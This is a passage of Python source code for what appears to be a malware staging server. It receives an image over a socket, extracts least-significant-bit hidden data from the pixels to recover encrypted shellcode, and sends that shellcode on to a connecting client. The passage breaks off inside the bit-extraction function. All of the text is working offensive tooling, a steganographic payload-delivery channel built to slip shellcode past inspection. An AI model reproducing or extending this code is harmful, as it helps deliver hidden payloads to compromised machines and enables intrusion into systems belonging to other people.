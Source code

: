 ```python3
        print(f"\nIncoming connection from {address[0]}:{address[1]}\n")

        # Recive image bytes and extract encrypted shellcode
        print("Receiving icon bytes...")
        with open("file.bin", "wb") as file:
          while True:
            data = client.recv(1024)
            #print(data)
            if data == b"":
              client.close()
              break
            client.send("OK".encode('latin-1'))
            file.write(data)
          file.close()
        self.extractBits("file.bin")

        client, address = self.server.accept()
        print(f"\nIncoming connection from {address[0]}:{address[1]}\n")

        # Send extracted encrypted shellcode bytes
        print("Sending encrypted shellcode...\n")
        with open("encrypted.bin", "rb") as file:
          while True:
            byte_content = file.read(1024)
            if not byte_content:
              client.close()
              break
            client.send(byte_content)
            data = client.recv(1024)
            #print(f"Bytes sent: {byte_content}")
            #print(f"Bytes recieved: {data}")
            if data == "OK":
              next
        print("Encrypted shellcode sent...\n")


        #print("Sending encrypted shellcode...\n")
        #with open("encrypted.bin", "rb") as file:
        #  byte_content = file.read(1024)
        #  client.send(byte_content)
        #print("Encrypted shellcode sent...\n")
        #client.close()

      except KeyboardInterrupt:
        print("")
        sys.exit()
      except Exception as e:
        print(f"Error: {e}")
        pass

  def extractBits(self, path):
    img = Image.open(path, 'r')
    array = np.array(list(img.getdata()))
    if img.mode == 'RGB':
      n = 3
    elif img.mode == 'RGBA':
      n = 4
    total_pixels = array.size//n
    hidden_bits = ""
    for p in range(total_pixels):
      for q in range(0,3):
        hidden_bits += (bin(array[p][q])[2:][-1])
    hidden_bits = [hidden_bits[i:i+8] for i in range(0, len(hidden_bits), 8)]
```